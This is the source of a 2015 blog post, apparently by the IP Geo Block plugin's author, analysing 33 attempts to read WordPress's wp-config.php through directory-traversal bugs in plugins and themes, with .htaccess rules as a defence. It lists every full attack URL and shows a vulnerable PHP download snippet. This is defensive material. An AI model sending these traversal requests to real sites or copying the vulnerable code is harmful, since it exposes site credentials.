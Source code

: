 ```yaml
---
layout: post
title:  "Prevent exposure of wp-config.php"
date:   2015-10-24 13:30:00
categories: article
published: true
script: []
inline:
---
```


From July to September in 2015, 33 types of malicious requests to attempt 
exposing the `wp-config.php` via vulnerable plugins and themes had been 
observed on my site. I analyzed all of them to identify if 
[IP Geo Block][IP-Geo-Block] can block them or not.

<!--more-->

Unfortunately, I could not find all the causes of exposure because most of 
them were already removed from the WordPress repository. So I can't say the 
right thing with confidence, but the only 2 of these could be blocked by 
[IP Geo Block 2.1.5 and under][IP-Geo-Block] even if they were from the 
forbidden countries.

In this article, I should clarify how to prevent exposure of `wp-config.php` 
against such malicous requests.

### <span id="sec1">Analysis of Attack Vectors</span> ###

Before showing the results, I should explain about the description of the 
terms same as in [the previous article][Analysis].

```text
Attack Vector = Type x Path
```

where:

- **Type**: The type of vulnerability that an attacker can abuse. For example, 
  XSS, SQLI, LFI and so on. Also it includes some certain parameters which 
  are generally called "signature".
- **Path**: The path to the entrance into WordPress where an attacker can 
  deliver the certain type of vulnerability.

The "**Path**" can be categorized into following : 

<table>
  <thead>
    <tr>
      <th>Abbreviation of Path</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><span class="label label-success">WP</span></td>
      <td><strong>W</strong>ord<strong>P</strong>ress</td>
    </tr>
    <tr>
      <td><span class="label label-danger">PD</span></td>
      <td><strong>P</strong>lugin <strong>D</strong>irect</td>
    </tr>
    <tr>
      <td><span class="label label-warning">N/A</span></td>
      <td><strong>N</strong>ot <strong>A</strong>vailable</td>
    </tr>
  </tbody>
</table>

Here's the table of 33 requests that were attempted to expose `wp-config.php` 
in my site. Most of them were disclosed recently.
[IP Geo Block 2.1.5 and under][IP-Geo-Block] can only protect the **Path** of 
<span class="label label-success">WP</span>, while the 
<span class="label label-danger">PD</span> (and probably 
<span class="label label-warning">N/A</span>) can not because those plugins 
and themes never load the WordPress core.

<div class="table-responsive">
  <table id="my-table" class="table">
    <thead>
      <tr>
        <th>Type</th>
        <th>Path</th>
        <th>Disclosed</th>
        <th>Request</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-08-10</td><!-- PD/NG -->
        <td><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
        <td><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
        <td><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
        <td><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
        <td><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-18</td><!-- N/A NG -->
        <td><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-13</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
        <td><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Disclosure">LFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-02-16</td><!-- N/A -->
        <td><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-07</td><!-- N/A -->
        <td><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-06</td><!-- N/A -->
        <td><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
        <td><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A -->
        <td><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
        <td><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-03</td><!-- N/A NG -->
        <td><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-04-14</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-08-31</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
        <td><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
      </tr>
      <tr>
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
        <td><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
      </tr>
    </tbody>
  </table>
</div>

### <span id="sec2">What's the cause?</span> ###

As you can see, most of them had their own download function like 
`download.php`. Typical OMG <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
</span> code in there are like following :

{% highlight php %}
<?php
$file = $_GET['file'];
if (file_exists('../../uploads/xxxx/'.$file)) {
    readfile('../../uploads/xxxx/'.$file);
    exit();
}
?>
{% endhighlight %}

This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.

### <span id="sec3">How to protect my site against such OMG code?</span> ###

First and foremost, we should consider to make the **Path** transformed from 
<span class="label label-danger">PD</span> and 
<span class="label label-warning">N/A</span> to
<span class="label label-success">WP</span>. If those plugins and themes have 
a chance to load WordPres core before they were excuted, 
[IP Geo Block][IP-Geo-Block] can block the attacks.

To achieve this, those plugins and themes should load the `wp-load.php`.
To do this, please consider to put the following directives into the 
`.htaccess` in your plugins directory for example :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteCond %{REQUEST_URI} !ip-geo-block/rewrite.php$
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

The absolute path of `/wp-content/plugins/` should be changed according to 
your site configuration. And here's the example in themes directory :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

Those will redirect a request, which is pointed to 
`/wp-content/plugins/.../*.php` or to 
`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in 
[IP Geo Block][IP-Geo-Block] in order to load `wp-load.php` and then it will 
be validated by country code or WP-ZEP <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
</span>.

Another consideration for **Type** in **Attack Vector** is that 
[IP Geo Block][IP-Geo-Block] should filter out the "**Malicious signature**" 
such as `wp-config.php` or `passwd` to defence against attacks from the 
permitted countries.

I'll provide you this functionarity in the next release (may be 2.2.0) !! 
<span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
</span>

[IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
[Analysis]:     {{ "/article/analysis-attack-vector.html" | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
[OWASP]:        https://www.owasp.org/index.php/Path_Traversal "Path Traversal - OWASP"
[WritePHP]:     https://github.com/tokkonopapa/WordPress-IP-Geo-Block/blob/master/ip-geo-block/rewrite.php "WordPress-IP-Geo-Block/rewrite.php at master - tokkonopapa/WordPress-IP-Geo-Block"

